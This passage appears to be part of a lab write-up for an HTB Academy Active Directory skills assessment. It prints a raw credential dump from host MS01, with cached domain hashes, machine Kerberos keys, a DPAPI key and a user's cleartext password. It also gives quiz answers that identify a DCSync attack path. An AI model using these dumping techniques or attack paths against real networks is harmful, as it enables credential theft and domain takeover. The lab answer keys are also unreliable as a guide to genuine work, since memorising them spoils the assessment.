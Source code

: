SMB 172.16.6.50 445 MS01 INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb

SMB 172.16.6.50 445 MS01 INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7db543a4ca0140989b8d419224751037ff48efab33aa4a5e9c493a7cf66b4cba

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:12d15fd0f478c6df1a349b7342af4508

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\MS01$:des-cbc-md5:4c8f0bcb29616e86

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\MS01$:plain_password_hex:d6f293d5f4afbc6bb199b763c2125e91a701f6de32be8f98187aa7ad428a21311270cc5506669e430937ec95c62c70abd12419c6839d0c4dfcde6a1d392fe76ca32deaef37d003b0b6e20c96c214fdc748cdb9ad73d26b444ecfb5e538401264cd09b0032f95a6a3e2dc8316259905953b13d44ba029a1e5a49f4a25e310c6a24a1abdcce08c355cae162091b66934b268b677b519e6df302d3da46d49e05e62bbda890a91f334a9b28bdc16a9a021cf8fabe011fd5745b759f2a0f9eb5b65cd1a46878fb16bbf9762dadfb640b1b3aa4e9dbf9ce465feddc860eca0d1abe397969ffa016d1bf6ddfe6fdb5eb0106bfd

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:3056e8f757aa367ec5ba02110c64b89d:::

SMB 172.16.6.50 445 MS01 INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR

SMB 172.16.6.50 445 MS01 dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786

SMB 172.16.6.50 445 MS01 NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63

**Answer:** `**tpetty**`

### 

6. Submit this user's cleartext password.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#6.-submit-this-users-cleartext-password.)

Continued from above

**Answer:** `**Sup3rS3cur3D0m@inU2eR**`

### 

7. What attack can this user perform?[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#7.-what-attack-can-this-user-perform)

Queried user `tpetty` on BloodHound and found the following under First Degree Object Control (Outbound Object Control):

The user TPETTY@INLANEFREIGHT.LOCAL has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain INLANEFREIGHT.LOCAL.

​

These two privileges allow a principal to perform a DCSync attack.

**Answer:** `**DCSync**`
